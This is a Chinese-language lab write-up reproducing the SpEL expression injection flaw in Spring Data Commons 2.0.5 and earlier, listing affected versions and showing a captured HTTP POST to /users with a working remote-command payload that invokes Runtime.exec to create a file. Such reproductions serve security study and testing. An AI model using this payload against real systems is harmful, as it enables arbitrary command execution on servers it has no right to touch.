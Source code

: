 Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring
Data下所有子项目共享的基础框架。Spring Data Commons
在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

#### 影响版本

    
    
    Spring Data Commons 1.13 – 1.13.10 (Ingalls SR10)  
    Spring Data REST 2.6 – 2.6.10(Ingalls SR10)  
    Spring Data Commons 2.0 – 2.0.5 (Kay SR5)  
    Spring Data REST 3.0 – 3.0.5(Kay SR5)  
    官方已经不支持的旧版本  
    

#### 漏洞验证

启动漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083104.png)image-20210829221718475![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083106.png)image-20210829221818001

#### 漏洞复现

访问该url，bp抓包

    
    
    http://192.168.173.144:8080/users  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083108.png)image-20210829221903184![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083109.png)image-20210829222003810

加上poc的请求包如下：

    
    
    POST /users?page=&size=5 HTTP/1.1  
    Host: 192.168.173.144:8080  
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
    Accept-Language: en-US,en;q=0.5  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 120  
    Origin: http://192.168.173.144:8080  
    Connection: close  
    Referer: http://192.168.173.144:8080/users  
    Cookie: JSESSIONID=F773DEBD35D866E11D6753373652513C  
    Upgrade-Insecure-Requests: 1  
      
      
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/zcc")]=&password=&repeatedPassword=  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083110.png)image-20210829222834353![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083111.png)image-20210829222911752

成功写入。
